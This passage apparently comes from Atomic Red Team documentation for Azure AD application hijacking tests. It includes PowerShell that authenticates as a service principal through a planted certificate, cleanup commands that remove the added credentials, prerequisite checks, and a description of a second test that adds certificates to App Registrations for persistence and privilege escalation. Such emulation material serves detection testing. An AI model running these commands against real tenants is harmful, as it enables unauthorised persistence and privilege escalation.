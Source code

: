 ```powershell
Start-Sleep -s 30
$tenant = Get-AzureADTenantDetail
$auth = Connect-AzureAD -TenantId $tenant.ObjectId -ApplicationId $sp.AppId -CertificateThumbprint $cert.Thumbprint
Write-Host "Application Hijacking worked. Logged in successfully as $($auth.Account.Id) of type $($auth.Account.Type)"
Write-Host "End of Hijacking"
```

#### Cleanup Commands:
```powershell
Import-Module -Name AzureAD -ErrorAction Ignore
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential -ErrorAction Ignore > $null

$sp = Get-AzureADServicePrincipal -SearchString "#{service_principal_name}" | Select-Object -First 1
$credz = Get-AzureADServicePrincipalKeyCredential -ObjectId $sp.ObjectId
foreach ($cred in $credz) {
  if ([System.Text.Encoding]::ASCII.GetString($cred.CustomKeyIdentifier) -eq "AtomicTest") {
    Write-Host "Removed $($cred.KeyId) key from SP"
    Remove-AzureADServicePrincipalKeyCredential -ObjectId $sp.ObjectId -KeyId $cred.KeyId
  }  
}
Get-ChildItem -Path Cert:\CurrentUser\My | where { $_.FriendlyName -eq "AtomicCert" } | Remove-Item
```



#### Dependencies:  Run with `powershell`!
##### Description: AzureAD module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AzureAD -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureAD -Force
```




<br/>
<br/>

## Atomic Test #2 - Azure AD Application Hijacking - App Registration
Add a certificate to an Application through its App Registration. The certificate can then be used to authenticate as the application.
This can be used for persistence, and also for privilege escalation by benefiting from the Application's rights.
An account with high-enough Azure AD privileges is needed, such as Global Administrator or Application Administrator. The account authentication must be without MFA.
